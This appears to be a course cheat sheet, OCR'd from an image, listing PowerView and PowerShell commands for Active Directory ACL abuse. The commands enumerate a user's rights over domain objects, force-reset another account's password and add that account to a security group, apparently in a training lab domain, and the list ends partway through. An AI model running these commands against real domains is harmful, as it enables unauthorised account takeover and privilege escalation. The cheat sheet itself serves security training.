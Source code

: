 `Import-Module .\PowerView.ps1 $sid = Convert-NameToSid wley`

    Used to import PowerView and retrieve the `SID` of a specific user account (`wley`) from a Windows-based host.

`Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}`

    Used to find all Windows domain objects that the user has rights over by mapping the user's `SID` to the `SecurityIdentifier` property from a Windows-based host.

`$guid= "00299570-246d-11d0-a768-00aa006e0529" Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | Select Name,DisplayName,DistinguishedName,rightsGuid | ?{$_.rightsGuid -eq $guid} | fl`

    Used to perform a reverse search & map to a `GUID` value from a Windows-based host.

`Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}`

    Used to discover a domain object's ACL by performing a search based on GUID's (`-ResolveGUIDs`) from a Windows-based host.

`Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt`

    Used to discover a group of user accounts in a target Windows domain and add the output to a text file (`ad_users.txt`) from a Windows-based host.

`foreach($line in [System.IO.File]::ReadLines("C:\Users\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}`

    A `foreach loop` used to retrieve ACL information for each domain user in a target Windows domain by feeding each list of a text file(`ad_users.txt`) to the `Get-ADUser` cmdlet, then enumerates access rights of those users. Performed from a Windows-based host.

`$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)`

    Used to create a `PSCredential Object` from a Windows-based host.

`$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force`

    Used to create a `SecureString Object` from a Windows-based host.

`Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose`

    PowerView tool used to change the password of a specifc user (`damundsen`) on a target Windows domain from a Windows-based host.

`Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members`

    PowerView tool used view the members of a target security group (`Help Desk Level 1`) from a Windows-based host.

`Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose`

    PowerView tool used to add a specifc user (`damundsen`) to a specific security group (`Help Desk Level 1`) in a target Windows domain from a Windows-based host.

`Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName`
